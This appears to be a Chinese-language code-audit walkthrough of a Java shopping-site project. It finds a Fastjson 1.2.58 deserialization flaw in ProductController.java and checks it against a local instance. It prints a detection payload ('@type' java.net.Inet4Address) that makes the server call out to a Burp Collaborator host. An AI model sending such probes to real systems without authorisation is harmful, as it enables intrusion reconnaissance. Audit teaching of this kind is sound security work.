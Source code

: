 本项目引入的组件以及组件版本整理如下

组件名称

组件版本

SpringBoot  2.1.6.RELEASE

Fastjson 1.2.58

Mysql  5.1.47

Druid

1.1.19

Taglibs

1.2.5

Mybatis

3.5.1

Log4j2

2.10.0

整理完成后，如何确定该组件版本存在漏洞？最简单的方法无疑于从搜索引擎进行搜索，比如关键字：Fastjson 漏洞

### 1.1 Fastjson反序列化

#### 白盒审计

本项目引入的Fastjson版本为1.2.58，该版本存在反序列化漏洞。

已确定了Fastjson版本存在问题，进一步寻找触发Fastjson的漏洞点。-
我们\*\*关注两个函数JSON.parse()和JSON.parseObject() ,并且执行函数内参数用户可控 Edit-Find->Find in path \*\*-
全局搜索两个关键字，发现本项目存在JSON.parseObject()，如下图所示：-
在ProductController.java中使用到了上诉关键词-
![image.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimage.3001.net%2Fimages%2F20221031%2F1667187853_635f448d75dc9920d1232.png%21small)-
在151、257、281行均调用了JSON.parseObject()方法，则这几处均存在反序列化。

#### 黑盒验证

构造url及参数：-
方法一：通过对各个页面的访问并抓包，找到propertyAddJson参 数-
方法二：通过抓包，观察数据格式构造url 这里我们优先结合方法一，方法二更适合get请求-
![image.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimage.3001.net%2Fimages%2F20221031%2F1667187870_635f449e701861a8d63eb.png%21small)-
构造url：通过代码中的admin/product-
http://127.0.0.1:8088/tmall/admin/product-
结合上述访问在网站中快速定位到页面， "添加一件产品"功能处是调用上述product方法-
![image.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimage.3001.net%2Fimages%2F20221031%2F1667187950_635f44eeba5332f63110e.png%21small)-
![image.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimage.3001.net%2Fimages%2F20221031%2F1667187959_635f44f7e22d2f37afe21.png%21small)-
\*\*不出网漏洞验证 \*\*-
在内网环境中，无法利用互联网的DNSlog进行漏洞验证。我们可以 使用BurpSuite中的Burp Collaborator client功能来进行验 证。-
该功能需使用BurpSuite专业版本。-
①、打开BurpSuite，点击左上角Burp-Burp Collaborator client 进入该功能，如下图所示：-
②、点击Copy to clipboar后，你会获取到一个测试地址，拼凑 成漏洞验证POC： {"@type":"java.net.Inet4Address","val":"nnebxkajwel1tdw8ssiocv9ncei46t.oastify.com"}，然后将其粘贴到 propertyJson字段中，点击发送数据包。稍等一会，多点几次 poll now，可以看到Burp Collaborator client接收到了探测 信息，如下图所示：-
![image.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimage.3001.net%2Fimages%2F20221031%2F1667187973_635f4505788bb4c7802d2.png%21small)
